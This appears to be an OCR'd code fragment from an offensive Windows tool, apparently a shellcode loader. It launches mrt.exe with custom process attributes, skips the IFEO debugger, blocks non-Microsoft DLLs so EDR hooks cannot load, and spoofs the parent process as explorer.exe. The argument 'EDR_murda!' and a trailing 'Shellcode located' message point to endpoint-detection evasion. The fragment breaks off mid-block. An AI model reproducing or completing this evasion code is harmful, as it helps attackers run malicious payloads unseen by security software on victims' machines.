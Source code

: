 ```
	// Path to the image file from which the process will be created
	UNICODE_STRING NtImagePath, Params, ImagePath;
	RtlInitUnicodeString(&ImagePath, (PWSTR)L"C:\\Windows\\System32\\mrt.exe");

	RtlInitUnicodeString(&NtImagePath, (PWSTR)L"\\??\\C:\\Windows\\System32\\mrt.exe");
	RtlInitUnicodeString(&Params, (PWSTR)L"\"C:\\WINDOWS\\SYSTEM32\\mrt.exe\" /i EDR_murda!");
	// Create the process parameters
	PRTL_USER_PROCESS_PARAMETERS ProcessParameters = NULL;
	RtlCreateProcessParametersEx(&ProcessParameters, &ImagePath, NULL, NULL, &Params, NULL, NULL, NULL, NULL, NULL, RTL_USER_PROCESS_PARAMETERS_NORMALIZED);

	// Initialize the PS_CREATE_INFO structure
	PS_CREATE_INFO CreateInfo = { 0 };
	CreateInfo.Size = sizeof(CreateInfo);
	CreateInfo.State = PsCreateInitialState;

	//Skip Image File Execution Options debugger
	CreateInfo.InitState.u1.InitFlags = PsSkipIFEODebugger;

	OBJECT_ATTRIBUTES objAttr = { sizeof(OBJECT_ATTRIBUTES)};
	PPS_STD_HANDLE_INFO stdHandleInfo = (PPS_STD_HANDLE_INFO)RtlAllocateHeap(RtlProcessHeap(), HEAP_ZERO_MEMORY, sizeof(PS_STD_HANDLE_INFO));
	PCLIENT_ID clientId = (PCLIENT_ID)RtlAllocateHeap(RtlProcessHeap(), HEAP_ZERO_MEMORY, sizeof(PS_ATTRIBUTE));
	PSECTION_IMAGE_INFORMATION SecImgInfo = (PSECTION_IMAGE_INFORMATION)RtlAllocateHeap(RtlProcessHeap(), HEAP_ZERO_MEMORY, sizeof(SECTION_IMAGE_INFORMATION));
	PPS_ATTRIBUTE_LIST AttributeList = (PS_ATTRIBUTE_LIST*)RtlAllocateHeap(RtlProcessHeap(), HEAP_ZERO_MEMORY, sizeof(PS_ATTRIBUTE_LIST));

	// Create necessary attributes
	AttributeList->TotalLength = sizeof(PS_ATTRIBUTE_LIST);
	AttributeList->Attributes[0].Attribute = PS_ATTRIBUTE_CLIENT_ID;
	AttributeList->Attributes[0].Size = sizeof(CLIENT_ID);
	AttributeList->Attributes[0].ValuePtr = clientId;

	AttributeList->Attributes[1].Attribute = PS_ATTRIBUTE_IMAGE_INFO;
	AttributeList->Attributes[1].Size = sizeof(SECTION_IMAGE_INFORMATION);
	AttributeList->Attributes[1].ValuePtr = SecImgInfo;

	AttributeList->Attributes[2].Attribute = PS_ATTRIBUTE_IMAGE_NAME;
	AttributeList->Attributes[2].Size = NtImagePath.Length;
	AttributeList->Attributes[2].ValuePtr = NtImagePath.Buffer;

	AttributeList->Attributes[3].Attribute = PS_ATTRIBUTE_STD_HANDLE_INFO;
	AttributeList->Attributes[3].Size = sizeof(PS_STD_HANDLE_INFO);
	AttributeList->Attributes[3].ValuePtr = stdHandleInfo;

	DWORD64 policy = PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON;

	// Add process mitigation attribute
	AttributeList->Attributes[4].Attribute = PS_ATTRIBUTE_MITIGATION_OPTIONS;
	AttributeList->Attributes[4].Size = sizeof(DWORD64);
	AttributeList->Attributes[4].ValuePtr = &policy;

	// Spoof Parent Process Id as explorer.exe
	DWORD trayPID;
	HWND trayWnd = FindWindowW(L"Shell_TrayWnd", NULL);
	GetWindowThreadProcessId(trayWnd, &trayPID);
	HANDLE hParent = OpenProcess(PROCESS_ALL_ACCESS, false, trayPID);
	if (hParent)
	{
		AttributeList->Attributes[5].Attribute = PS_ATTRIBUTE_PARENT_PROCESS;
		AttributeList->Attributes[5].Size = sizeof(HANDLE);
```

[+]: Shellcode located at c7160